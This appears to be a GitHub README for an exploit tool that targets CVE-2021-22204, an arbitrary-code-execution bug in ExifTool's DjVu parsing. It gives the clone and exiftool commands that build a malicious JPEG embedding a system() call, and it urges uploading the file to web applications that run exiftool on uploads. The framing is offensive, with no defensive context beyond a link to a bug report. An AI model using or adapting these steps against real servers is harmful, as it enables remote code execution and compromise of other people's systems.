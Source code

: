 # JPEG_RCE
Exiftool bug which leads to RCE </br></br>
***CVE-2021-22204 - RCE***

</br>
*REFFERENCE*
 
</br>Related hackerone report : https://hackerone.com/reports/1154542 </br>

*VULNERABILITY*

ExifTool 7.44 to 12.23 has a bug in the DjVu module which allows for arbitrary code execution when parsing malicious images.</br>

*REQUIREMENTS*

if you are using other image ,it should be a valid jpeg/jpg file </br>
You can check that with exiftool </br>
The meta-data should be : </br>
	MIME Type                       : image/jpeg" </br>
</br>
*EXPLOIT VECTOR*

If the web application has a feature of uploading image and if the application is parsing the metadata of the uploaded image file using exiftool, you can always give a try with this exploit </br>
</br>
*NOTE*

The exiftool version should be between  7.44 to 12.23. </br>
</br>
*COMMAND (exploit)* 
</br> Clone the repo </br>
`git clone https://github.com/OneSecCyber/JPEG_RCE.git`
</br> `cd JPEG_RCE`
</br> `exiftool -config eval.config runme.jpg -eval='system("ls -la")'`</br>
It will create malicious jpg file </br>
Upload the file or run the file in you local system to see the magic.. </br>
`exiftool runme.jpg `
